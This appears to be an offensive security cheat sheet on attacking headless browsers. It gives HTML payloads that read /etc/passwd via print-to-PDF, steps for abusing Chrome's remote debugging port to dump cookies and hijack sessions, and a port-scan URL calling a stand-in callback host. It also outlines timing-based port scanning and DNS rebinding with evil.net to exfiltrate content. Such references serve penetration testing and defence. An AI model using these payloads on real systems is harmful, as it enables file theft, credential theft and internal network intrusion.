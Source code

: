 # Headless Browser

> A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.
> Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.

## Summary

* [Headless Commands](#headless-commands)
* [Local File Read](#local-file-read)
* [Debugging Port](#debugging-port)
* [Network](#network)
    * [Port Scanning](#port-scanning)
    * [DNS Rebinding](#dns-rebinding)
* [References](#references)

## Headless Commands

Example of headless browsers commands:

* Google Chrome

    ```ps1
    google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
    ```

* Mozilla Firefox

    ```ps1
    firefox --screenshot https://www.google.com
    ```

* Microsoft Edge

    ```ps1
    "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
    ```

## Local File Read

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect

    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe

    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```

## Debugging Port

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Dump cookies:
* Stored data: `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`
* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`

    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.

## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0

### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content

## References

* [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
* [Chrome DevTools Protocol - Documentation - July 3, 2017](https://chromedevtools.github.io/devtools-protocol/)
* [Cookies with Chromium’s Remote Debugger Port - Justin Bui - December 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
* [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - July 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
* [Node inspector/CEF debug abuse - HackTricks - July 18, 2024](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
* [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - April 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
* [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)
